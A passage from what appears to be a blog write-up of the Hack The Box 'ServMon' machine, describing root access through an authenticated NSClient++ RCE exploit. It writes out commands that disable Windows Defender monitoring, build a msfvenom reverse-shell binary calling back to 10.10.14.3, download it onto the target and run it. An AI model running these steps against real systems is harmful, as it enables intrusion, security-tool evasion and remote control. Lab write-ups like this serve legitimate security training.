 There are options to perform this from the command line or from the web portal. There is however a third option that I didn't really see when I looked for writeups, perhaps because it is a shortcut for the intended way. That is to go back to the authenticated RCE exploits I tried in the first place. I was trying them with Nadine's password, which worked for SSH or for SMB, but wasn't the admin password for the `NSClient ++` service. So looked for those again, and I found this [authenticated RCE from exploit-db](https://www.exploit-db.com/exploits/48360), and I used it once to disable AV, then upload a msfvenom binary, then again to execute the binary. 

The steps are:
1.  From kali: `python3 nsclient.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'powershell Set-MpPreference -DisableRealtimeMonitoring $true'`
2. From kali: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=445 -f exe -o reverse.exe`
3. From target: `iwr -uri http://10.10.14.3:80/reverse.exe -o C:\temp\everse.exe`
4. From kali: `python3 nsclient.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'C:\temp\reverse.exe'`
	1. *Note that this is after I had already forward the 8443 port to my machine, that's why I was able to call localhost, rather than the IP. This exploit would not have worked had that not happened because the service was configured to only accept commands from it's own server.*
	   
And that gets us a shell. 

![ServMon10.png](/assets/images/ServMon/ServMon10.png){: .center-aligned width="600px"}

From there we can grab root.txt from `C:\Users\Administrator\Desktop\root.txt`, and we're done. 

### Issues
I want to address a couple of things here, because the box is rated Easy, but it also has a 2.1 rating on HTB, which I didn't notice before I started. After reading what other people did to complete it, it sounds like there are some issues that make the performance of the box a little inconsistent. 
